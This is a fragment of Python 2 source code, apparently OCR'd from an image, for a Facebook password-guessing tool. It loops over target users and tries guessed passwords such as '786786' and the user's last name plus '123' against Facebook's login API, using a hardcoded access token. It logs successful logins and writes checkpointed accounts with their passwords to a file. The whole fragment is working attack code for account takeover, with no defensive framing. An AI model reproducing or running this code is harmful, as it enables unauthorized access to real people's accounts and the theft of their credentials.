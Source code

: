 											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = '786786'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;36;40m[After1Day] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass5 + ' 👽 ' + b['name']

													cek = open("out/CP.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

													cekpoint.append(user+pass5)

												else:

													pass6 = b['last_name'] + '123'

													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

													q = json.load(data)

													if 'access_token' in q:

														print '\033[1;97m[Login Now] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']

														oks.append(user+pass6)

													else:

														if 'www.facebook.com' in q["error_msg"]:

															print '\x1b[1;36;40m[After1Day] \033[1;97m ' + user  + ' \x1b[1;36;40m|\033[1;97m ' + pass6 + ' 👽 ' + b['name']

															cek = open("out/CP.txt", "a")

															cek.write(user+"|"+pass6+"\n")
